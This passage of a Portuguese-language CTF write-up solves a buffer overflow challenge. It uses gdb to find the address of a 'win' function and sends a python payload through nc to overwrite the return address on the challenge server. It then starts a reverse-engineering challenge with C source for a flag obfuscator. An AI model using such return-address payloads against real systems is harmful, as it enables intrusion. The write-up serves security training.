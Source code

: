 Com 100 bytes eu consegui sobrescrever o endereço de retorno, não sei exatamente quantos bytes são necessários, como o programa diz para qual endereço ele está indo, fiz esse processo por tentativa e erro e vi que com 88 bytes o programa já dá segmentation fault, logo eu preciso de 87 bytes.

O próximo passo era descobrir o endereço da função win

```
$ gdb ./bof103
gdb-peda$ disas win
Dump of assembler code for function win:
   0x0000000000401196 <+0>:     endbr64
   0x000000000040119a <+4>:     push   rbp
   0x000000000040119b <+5>:     mov    rbp,rsp
   0x000000000040119e <+8>:     lea    rdi,[rip+0xe63]        # 0x402008
   0x00000000004011a5 <+15>:    call   0x401070 <puts@plt>
   0x00000000004011aa <+20>:    lea    rdi,[rip+0xe83]        # 0x402034
   0x00000000004011b1 <+27>:    call   0x401080 <system@plt>
   0x00000000004011b6 <+32>:    nop
   0x00000000004011b7 <+33>:    pop    rbp
   0x00000000004011b8 <+34>:    ret
End of assembler dump.
```

O endereço é 0x0000000000401196, depois disso criei um payload semelhante aos outros desafios

```
$ python3 -c "print('A' * 87 + '\x96\x11\x40\x00\x00\x00\x00\x00')" | nc projetorsi.com.br 9003
R$1{~FLAG~}
```

## **Reversing**

### **Introdução à Engenharia Reversa**

![descrição do primeiro desafio de rev](./images/intro_rev.png)

Código do programa:

```c
#include <stdio.h>
#include <string.h>

char myobfuscatedflag[] = "${0d0Rr11f_5tL}b";

char * obfuscate(char * flag){
        static char obfuscated_flag[16];
        obfuscated_flag[16] = '\0';
        obfuscated_flag[5] = flag[0];
        obfuscated_flag[0] = flag[1];
        obfuscated_flag[7] = flag[2];
        obfuscated_flag[1] = flag[3];
        obfuscated_flag[9] = flag[4];
        obfuscated_flag[8] = flag[5];
        obfuscated_flag[6] = flag[6];
```